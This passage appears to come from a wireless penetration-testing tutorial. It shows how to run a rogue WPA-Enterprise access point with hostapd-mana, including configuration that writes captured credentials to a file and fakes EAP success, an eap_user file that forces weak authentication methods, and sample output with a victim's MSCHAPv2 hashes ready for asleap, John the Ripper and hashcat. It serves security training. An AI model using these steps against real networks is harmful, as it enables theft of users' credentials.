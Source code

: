 ```bash
# Enable Mana WPE
mana_wpe=1

# Store credentials in that file
mana_credout=/tmp/hostapd.credout

# Send EAP success, so the client thinks it's connected
mana_eapsuccess=1

# EAP TLS MitM
mana_eaptls=1
```
#### Create the eap_user file

We'll now need to create the EAP user file referenced in the configuration file, /etc/hostapd-mana/mana.eap_user. The file should contain the following.

```bash
*     PEAP,TTLS,TLS,FAST
"t"   TTLS-PAP,TTLS-CHAP,TTLS-MSCHAP,MSCHAPV2,MD5,GTC,TTLS,TTLS-MSCHAPV2    "pass"   [2]
```

#### Start hostapd-mana
Next, we'll start hostapd-mana with the configuration file we created earlier, /etc/hostapd-mana/mana.conf.
```bash
sudo hostapd-mana /etc/hostapd-mana/mana.conf
Configuration file: mana.conf
MANA: Captured credentials will be written to file '/tmp/hostapd.credout'.
Using interface wlan0 with hwaddr 16:93:8a:98:ec:4f and ssid "Playtronics"
wlan0: interface state UNINITIALIZED->ENABLED
wlan0: AP-ENABLED
```

When a victim attempts to authenticate to our AP, the login attempt is captured. These credentials are also in /tmp/hostapd.credout.

```bash
...
wlan0: STA 00:2b:bb:b0:42:9e IEEE 802.11: authenticated
wlan0: STA 00:2b:bb:b0:42:9e IEEE 802.11: associated (aid 1)
wlan0: CTRL-EVENT-EAP-STARTED 00:2b:bb:b0:42:9e
wlan0: CTRL-EVENT-EAP-PROPOSED-METHOD vendor=0 method=1
MANA EAP Identity Phase 0: cosmo
wlan0: CTRL-EVENT-EAP-PROPOSED-METHOD vendor=0 method=25
MANA EAP Identity Phase 1: cosmo
MANA EAP EAP-MSCHAPV2 ASLEAP user=cosmo | asleap -C ce:b6:98:85:c6:56:59:0c -R 72:79:f6:5a:a4:98:70:f4:58:22:c8:9d:cb:dd:73:c1:b8:9d:37:78:44:ca:ea:d4
MANA EAP EAP-MSCHAPV2 JTR | cosmo:$NETNTLM$ceb69885c656590c$7279f65aa49870f45822c89dcbdd73c1b89d377844caead4:::::::
MANA EAP EAP-MSCHAPV2 HASHCAT | cosmo::::7279f65aa49870f45822c89dcbdd73c1b89d377844caead4:ceb69885c656590c
...
```

